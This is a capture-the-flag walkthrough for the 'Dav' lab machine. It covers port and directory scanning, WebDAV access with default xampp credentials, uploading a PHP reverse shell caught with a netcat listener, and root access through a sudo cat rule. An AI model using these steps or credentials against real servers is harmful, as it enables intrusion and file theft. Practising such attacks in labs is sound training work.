



# Dav

## Description

boot2root machine for FIT and bsides guatemala CTF

## Challenges

Read user.txt and root.txt

`nmap -A -vv 10.10.217.70`

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:92:E3:CA:87:AF (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=5/5%OT=80%CT=1%CU=42232%PV=Y%DS=1%DC=D%G=Y%M=0292E3%TM
OS:=66379722%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%TS=8)
OS:SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M230
OS:1ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)W
OS:IN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6
OS:903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

`gobuster dir -u http://10.10.217.70/ -w /usr/share/wordlists/dirb/common.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.217.70/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/05 15:40:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
===============================================================
2024/05/05 15:40:28 Finished
===============================================================
```

Check /webdav



Credentials finded by Google Dorking - https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
user: wampp
password: xampp



`wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91` - but we already know the password: `xampp`

WebDAV - similar to the ftp. But to connect we need cadaver

`cadaver http://10.10.217.70/webdav`

```
Authentication required for webdav on server `10.10.217.70':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
```

We can upload a reverse shell. For example - https://github.com/pentestmonkey/php-reverse-shell

```
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
```



```
root@ip-10-10-93-47:~# nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.217.70 60572 received!
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 08:03:31 up 42 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ cd home
$ ls
merlin
wampp
$ cd merlin
$ ls
user.txt
$ cat user.txt
```

`python -c "import pty; pty.spawn('/bin/bash')"`

```
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
```